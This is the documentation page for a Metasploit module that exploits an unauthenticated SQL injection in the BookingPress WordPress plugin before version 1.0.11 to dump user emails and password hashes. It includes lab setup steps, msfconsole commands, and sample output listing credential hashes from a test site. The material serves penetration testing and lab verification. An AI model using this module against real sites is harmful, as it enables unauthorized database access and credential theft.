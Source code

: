 ## Vulnerable Application

The BookingPress WordPress plugin before 1.0.11 fails to properly sanitize user supplied data 
in the `total_service` parameter of the `bookingpress_front_get_category_services` AJAX action 
(available to unauthenticated users), prior to using it in a dynamically constructed SQL query. 
As a result, unauthenticated attackers can conduct an SQL injection attack to dump sensitive 
data from the backend database such as usernames and password hashes.

This module uses this vulnerability to dump the list of WordPress users and their associated 
email addresses and password hashes for cracking offline.

### Setup
#### Ubuntu 20.04 with Docksal
Install Docksal:

```bash
sudo apt update
sudo apt install curl
bash <(curl -fsSL https://get.docksal.io)
sudo usermod -aG docker $USER
```

Reboot the VM (Docksal needs to be able to run `docker` without sudo).

```bash
msfuser@ubuntu:~$ fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf

2. What would you like to install?
   PHP based
    1.  Drupal 9 (Composer Version)
    2.  Drupal 9 (BLT Version)
    3.  Drupal 9
    4.  Drupal 7
    5.  Wordpress
    6.  Magento
    7. Laravel
    8. Symfony Skeleton
    9. Symfony WebApp
    10. Grav CMS
    11. Backdrop CMS

Go based
12. Hugo

JS based
13. Gatsby JS
14. Angular

HTML
15. Static HTML site

Custom
0. Custom git repository


Enter your choice (0-15): 5

Project folder:   /home/msfuser/msf
Project software: Wordpress
Source repo:      https://github.com/docksal/boilerplate-wordpress.git
Source branch:    <default>
Project URL:      http://msf.docksal

Do you wish to proceed? [y/n]: y

... 

Success: WordPress installed successfully.

real	0m10.112s
user	0m0.327s
sys	0m0.061s
Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download a vulnerable version of BookingPress:
`wget https://downloads.wordpress.org/plugin/bookingpress-appointment-booking.1.0.10.zip`

Navigate to the WordPress admin page that was just setup by Docksal:
`Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin`

Navigate to `Plugins` on the left hand menu, then select `Add New` then select `Upload Plugin`.

Select `Browse...` and browse to the `bookingpress-appointment-booking.1.0.10.zip` file just downloaded, click `Install Now`

You should see the following output in the browser:

```
Installing Plugin from uploaded file: bookingpress-appointment-booking.1.0.10.zip

Unpacking the package…

Installing the plugin…

Plugin installed successfully.
```

Click `Activate Plugin`

The BookingPress plugin has to be in use on the WordPress site in order to exploit the vulnerability:

1. Create a new "category" and associate it with a new "service" via the BookingPress admin menu
   (`/wp-admin/admin.php?page=bookingpress_services`).
1. Create a new page on the WordPress site that you've just set up by clicking `+ New` at the top of the screen and then
   select `Page` from the dropdown.
1. Paste `[bookingpress_form]` on the new page and click `publish`.
1. Navigate to `/bookingpress/` and you should see BookPress running with the Category / Service you created in step 1.

## Options

### BOOKING_PRESS_PAGE

The webpage that BookingPress is running on. Example: `/bookingpress/`.

## Verification Steps

1. Start msfconsole.
1. Do: `use auxiliary/gather/wp_bookingpress_category_services_sqli`.
1. Set the options `RHOSTS` (you may also have to set `RPORT` and `BOOKING_PRESS_PAGE` depending on how the target is configured).
1. Run the module.
1. Receive a table of WordPress users and their associated email addresses and password hashes.

## Scenarios
### Booking Press 1.0.10, WordPress Running Via Docksal, Ubuntu 20.04
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
